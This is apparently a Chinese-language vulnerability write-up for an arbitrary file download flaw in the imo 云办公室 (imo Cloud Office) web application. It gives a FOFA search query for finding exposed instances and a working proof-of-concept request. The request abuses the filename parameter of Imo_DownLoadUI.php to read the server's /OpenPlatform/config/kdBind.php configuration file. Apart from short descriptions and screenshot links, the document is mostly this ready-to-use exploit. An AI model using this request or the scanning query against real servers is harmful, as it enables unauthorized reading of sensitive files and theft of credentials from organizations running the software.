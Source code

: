 # imo 云办公室 Imo_DownLoadUI.php 任意文件下载漏洞

# imo 云办公室 Imo_DownLoadUI.php 任意文件下载漏洞

## 漏洞描述

imo 云办公室 由于 /file/Placard/upload/Imo_DownLoadUI.php 页面 filename 参数过滤不严，导致可以读取系统敏感文件。

## 漏洞影响

```
imo 云办公室
```

## 网络测绘

```
app="iMO-云办公室"
```

## 漏洞复现

登录页面

![image-20220524171455819](/images/202205241714963.png)

验证POC

```
/file/Placard/upload/Imo_DownLoadUI.php?cid=1&uid=1&type=1&filename=/OpenPlatform/config/kdBind.php
```

![image-20220524171627797](/images/202205241716860.png)

